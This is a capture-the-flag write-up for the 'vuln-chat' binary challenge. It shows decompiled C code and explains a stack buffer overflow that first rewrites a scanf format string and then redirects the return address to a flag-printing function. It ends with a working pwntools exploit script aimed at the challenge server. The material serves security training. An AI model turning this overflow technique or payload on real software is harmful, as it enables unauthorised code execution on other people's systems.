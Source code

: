 #Write Up Of AceBear Team

First, use IDA pro to view source code i have:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+3h] [ebp-2Dh]
  char v5; // [esp+17h] [ebp-19h]
  int v6; // [esp+2Bh] [ebp-5h]
  char v7; // [esp+2Fh] [ebp-1h]

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  v6 = 's03%';
  v7 = 0;
  __isoc99_scanf(&v6, &v5);
  printf("Welcome %s!\n", &v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", &v5);
  __isoc99_scanf(&v6, &v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
```C
int printFlag()
{
  system("/bin/cat ./flag.txt");
  return puts("Use it wisely");
}
```
When i input username, i can overwrite value of `v6`.
In this case i overwrite value of `v6` to `%s`.
In next step i can overflow stack and overwrite return address to address of printFlag().

```py
from pwn import *
from time import *
printflag = 0x0804856B

r = remote('vulnchat.tuctf.com', 4141)
# r = process('./vuln-chat')
# gdb.attach(r ,)
r.recvuntil('Enter your username: ')
r.sendline('a'*20+'%s\x00')
sleep(1)
r.sendline('a'*0x2d+p32(printflag)*2)
r.interactive()
```

